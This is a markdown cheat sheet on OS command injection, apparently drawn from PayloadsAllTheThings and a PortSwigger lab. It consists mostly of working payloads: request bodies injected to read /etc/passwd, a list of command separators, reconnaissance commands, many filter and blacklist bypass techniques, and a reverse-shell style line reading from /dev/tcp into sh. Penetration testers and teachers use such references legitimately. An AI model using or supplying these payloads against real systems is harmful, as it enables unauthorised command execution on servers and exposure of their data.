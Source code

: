  # OS Command Injection

> OS command injection or `"shell injection"` is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, which leads to expose some secrets or manipulate the data  

## Summary

- [OS Command Injection](#os-command-injection)
  - [Summary](#summary)
  - [Exploits](#exploits)
    - [Basic commands](#basic-commands)
    - [Useful commands](#useful-commands)
    - [Command Separator](#command-separator)
  - [Filter Bypasses](#filter-bypasses)
    - [Bypass without space](#bypass-without-space)
    - [Bypass with a line return](#bypass-with-a-line-return)
    - [Bypass characters filter via hex encoding](#bypass-characters-filter-via-hex-encoding)
    - [Bypass characters filter](#bypass-characters-filter)
    - [Bypass Blacklisted words](#bypass-blacklisted-words)
      - [Bypass with single quote](#bypass-with-single-quote)
      - [Bypass with double quote](#bypass-with-double-quote)
      - [Bypass with backslash and slash](#bypass-with-backslash-and-slash)
      - [Bypass with $@](#bypass-with)
      - [Bypass with variable expansion](#bypass-with-variable-expansion)
      - [Bypass with wildcards](#bypass-with-wildcards)
  - [References](#references)
    



## Exploits

 :fire: **example :**

**Request :**
```bash
POST /product/stock HTTP/1.1
Host: sub.web-security-academy.net
Referer: https://sub.web-security-academy.net/product?productId=2
```
**Request Body :**
```bash
productId=2&storeId=1
```
**Modified Request Body :**
```bash
productId=2&storeId=1|cat /etc/passwd
```
**Response :**
```bash
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 1129

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

### Basic commands

**Request :**
```bash
cat /etc/passwd
```
**Response :**
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```
### Useful commands 

| Purpose of command    | Linux       | Windows     |
|-----------------------|-------------|-------------|
| Name of current user  | whoami      | whoami      |
| Operating system      | uname -a    | ver         |
| Network configuration | ifconfig    | ipconfig    |
| Network connections   | netstat -an | netstat -an |
| Running processes     | ps -ef      | tasklist    |

### Command Separator

other separators (just try)

```bash
;
&&
&
|
||
0x0a
\n
```
**:warning: Note: Newline (0x0a or \n)**




:fire: **example :** 
```bash
productId=2&storeId=1&&cat /etc/passwd
productId=2&storeId=1||cat /etc/passwd
productId=2&storeId=1;cat /etc/passwd

```

## Filter Bypasses

### Bypass without space

Works on Linux only.

```bash
cat</etc/passwd

{cat,/etc/passwd}

cat$IFS/etc/passwd

echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd

X=$'uname\x20-a'&&$X

sh</dev/tcp/127.0.0.1/4242
```

Commands execution without spaces, $ or { } - Linux (Bash only)

```bash
IFS=,;`cat<<<uname,-a`
```

Works on Windows only.

```bash
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Bypass with a line return

```bash
something%0Acat%20/etc/passwd
```

### Bypass characters filter via hex encoding

linux
```bash
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
```
```bash
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
```
```bash
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
```
```bash
cat `xxd -r -p <<< 2f6574632f706173737764`
```
```bash
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

### Bypass characters filter

Commands execution without backslash and slash - linux bash

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### Bypass Blacklisted words

#### Bypass with single quote
```bash
w'h'o'am'i
```
#### Bypass with double quote
```bash
w"h"o"am"i
```
#### Bypass with backslash and slash
```bash
w\ho\am\i
/\b\i\n/////s\h
```
#### Bypass with $@

```bash
who$@ami
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```


## References
* [Portswigger](https://portswigger.net/web-security/os-command-injection)

* [PayloadsAllTheThings - By swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)